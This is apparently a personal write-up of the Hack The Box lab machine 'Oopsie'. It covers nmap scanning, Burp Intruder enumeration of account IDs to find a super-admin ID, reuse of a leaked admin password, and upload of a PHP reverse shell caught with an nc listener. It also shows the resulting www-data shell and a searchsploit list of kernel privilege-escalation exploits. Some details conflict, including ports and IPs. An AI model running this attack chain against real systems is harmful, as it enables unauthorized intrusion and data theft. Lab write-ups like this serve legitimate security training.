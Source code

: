 ```yaml
---
title: "Writeup: Oopsie"
date: 2020-12-29T9:34:30-04:00
categories:
  - Blog
  - Notes
tags:
  - oopsie
  - update
  - nmap
  - pwd
  - BURP
  - dirsearch.py
---
```


Here are notes from the named target:

*Enumeration* - Ports 445 and 1433 are open, which are associated with file sharing (SMB) and SQL Server.
Linux - 10.10.10.28
```yaml
ports=$(nmap -p- --min-rate=1000 -T4 10.10.10.27 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
 nmap -sC -sV -p$ports 10.10.10.27 
```

Results:
```yaml
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 61:e4:3f:d4:1e:e2:b2:f1:0d:3c:ed:36:28:36:67:c7 (RSA)
|   256 24:1d:a4:17:d4:e3:2a:9c:90:5c:30:58:8f:60:77:8d (ECDSA)
|_  256 78:03:0e:b4:a1:af:e5:c2:f9:8d:29:05:3e:29:c9:f2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Welcome
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Two Ports open SSH and Web

*Enumerate* the Web port 80 - MegaCorpAutomotive

Using a web browser connect to the IP and look around. None of the menu links work but at the bottom of the home page it speaks about login but no page for that. Use BURP proxy to take a look at web traffic.

**BURP**

Using BURP and its uilt in browser no need to configure external browser.
  open web site and in BURP click :Forward" button on the Proxy tab until the page opens up:
  Switch to the :Target" tab and you see a folder tree under the Web IP for "CDN-CGI\login" add that to url path in browser and hit enter:
  back in BURP on the Proxy Tab click Forward to get to the Login Screen:
  
From the "ARCHTYPE" box we learned that their was an Administrator/Admin account that used the Password: MEGACORP_4dm1n!!

Using that Admin user name and Password from ARCHETYPE works and we get the admin page

```yaml
http://10.10.10.28/cdn-cgi/login/admin.php
```

Look around that page:

  The uploads page says that "super admin" is needed to access but I am logged in as only Admin
  
  ```yaml
  http://10.10.10.28/cdn-cgi/login/admin.php?content=uploads
  ```
  
  Using BURP proxy again turn ON Intercept and capture the account page to get the user ID
  Send the page to intruder:
  
  Clear all the automatic set variables with the Cler button and highlight the id=1 then click add to gt this
  
  ```yaml
  GET /cdn-cgi/login/admin.php?content=accounts&id=§1§ HTTP/1.1

Host: 10.10.10.28

Upgrade-Insecure-Requests: 1
```

Click the Payloads tab and we want to try id=1-100 so we got to list 1-100 numbers in the shell with

```yaml
for i in {1..100}
do
 # your-unix-command-here
 echo $i
done
```

Highlight the numbers 1-100 in the shell - Copy and then in BURP click Paste to add them to the Payloads section:

Click Options and scroll to bottom to the Redections section:
1. click always radio
2. check Process cookies in redirections
  
Click Target Tab and click Start Attack Button: the length field shows that responce text is different than others so taking a look at the ones with different length shows number 30 is "super admin" by choosing it with Response Tb anf RAW selected:

```yaml
<br /><br /><center><h1>Repair Management System</h1><br /><br />
<table><tr><th>Access ID</th><th>Name</th><th>Email</th></tr><tr><td>86575</td><td>super admin</td><td>superadmin@megacorp.com</td></tr></table<script src='/js/jquery.min.js'></script>
<script src='/js/bootstrap.min.js'></script>
</body>
```
  
Use the ID 86575 as the ID value in an uploads page and get access to upload a file.
that gets access to the uploads page

```yaml
http://10.10.10.28/cdn-cgi/login/admin.php?content=uploads
```

Now I wanty to try and upload a PHP reverse shell

**Reverse Shell**
Locate PHP reverse shell from http://pentestmonkey.net/tools/web-shells/php-reverse-shell

Be sure to read what it does and update the IP and port. Save the PHP reverse shell (phpshell.php) and then upload it to the web page:

Now that it is uploaded you have to find out where it was uploaded to so you can browse to it and cause it to fire off:

Use *dirsearch.py*

```yaml
┌──(kali㉿kali)-[~/dirsearch]
└─$ python3 dirsearch.py -e php -u http://10.10.10.28 --exclude-status 403,401                                                                   2 ⨯

  _|. _ _  _  _  _ _|_    v0.4.1                                                                                                                     
 (_||| _) (/_(_|| (_| )                                                                                                                              
                                                                                                                                                     
Extensions: php | HTTP method: GET | Threads: 30 | Wordlist size: 8853

Error Log: /home/kali/dirsearch/logs/errors-20-12-31_12-22-28.log

Target: http://10.10.10.28/                                                                                                                          
                                                                                                                                                     
Output File: /home/kali/dirsearch/reports/10.10.10.28/_20-12-31_12-22-28.txt

[12:22:28] Starting: 
[12:22:40] 301 -  308B  - /css  ->  http://10.10.10.28/css/                                                                             
[12:22:42] 301 -  310B  - /fonts  ->  http://10.10.10.28/fonts/                                       
[12:22:42] 301 -  311B  - /images  ->  http://10.10.10.28/images/  
[12:22:43] 200 -   11KB - /index.php                                                                           
[12:22:43] 200 -   11KB - /index.php/login/
[12:22:43] 301 -  307B  - /js  ->  http://10.10.10.28/js/                                               
[12:22:48] 301 -  311B  - /themes  ->  http://10.10.10.28/themes/                                                 
[12:22:48] 301 -  312B  - /uploads  ->  http://10.10.10.28/uploads/                       
                                                                                                
Task Completed                                   
```
Before we can fire the reverse shell we have to open a listener and have it wait for the connection from the web server reverse shell:

```yaml
nc -nlvp 4321
```
Now we try to browse to the "/uploads/phpshell.php" - you will aslso ne to use the ID of the Super Admin in the BURP Proxy then click "Forward"

**Got SHELL**

```yaml
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 4321             
listening on [any] 4321 ...
connect to [10.10.14.87] from (UNKNOWN) [10.10.10.28] 51198
Linux oopsie 4.15.0-76-generic #86-Ubuntu SMP Fri Jan 17 17:24:28 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 17:38:42 up 11:52,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ ls
bin
boot
cdrom
```
Grab local info
```yaml
$ cd home
$ ls
robert
$ cd robert
$ ls
user.txt
$ cat user.txt
f2c74ee8db7983851ab2a96a44eb7981
$ whoami
www-data
```

kernal version - Linux oopsie 4.15.0-76-generic #86-Ubuntu SMP Fri Jan 17 17:24:28 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux:

Check exploit DB - searchsploit
```yaml
┌──(kali㉿kali)-[~]
└─$ searchsploit Linux Kernel 4.15.0
------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                     |  Path
------------------------------------------------------------------------------------------------------------------- ---------------------------------
Linux Kernel (Solaris 10 / < 5.10 138888-01) - Local Privilege Escalation                                          | solaris/local/15962.c
Linux Kernel 2.4/2.6 (RedHat Linux 9 / Fedora Core 4 < 11 / Whitebox 4 / CentOS 4) - 'sock_sendpage()' Ring0 Privi | linux/local/9479.c
Linux Kernel 4.10 < 5.1.17 - 'PTRACE_TRACEME' pkexec Local Privilege Escalation                                    | linux/local/47163.c
Linux Kernel 4.15.x < 4.19.2 - 'map_write() CAP_SYS_ADMIN' Local Privilege Escalation (cron Method)                | linux/local/47164.sh
Linux Kernel 4.15.x < 4.19.2 - 'map_write() CAP_SYS_ADMIN' Local Privilege Escalation (dbus Method)                | linux/local/47165.sh
Linux Kernel 4.15.x < 4.19.2 - 'map_write() CAP_SYS_ADMIN' Local Privilege Escalation (ldpreload Method)           | linux/local/47166.sh
Linux Kernel 4.15.x < 4.19.2 - 'map_write() CAP_SYS_ADMIN' Local Privilege Escalation (polkit Method)              | linux/local/47167.sh
Linux Kernel 4.8.0 UDEV < 232 - Local Privilege Escalation                                                         | linux/local/41886.c
Linux Kernel < 4.15.4 - 'show_floppy' KASLR Address Leak                                                           | linux/local/44325.c
Linux Kernel < 4.16.11 - 'ext4_read_inline_data()' Memory Corruption                                               | linux/dos/44832.txt
Linux Kernel < 4.17-rc1 - 'AF_LLC' Double Free                                                                     | linux/dos/44579.c
------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Check open ports that may not be visable from outside"

netstat -antup - showm myswl port 3306 listening



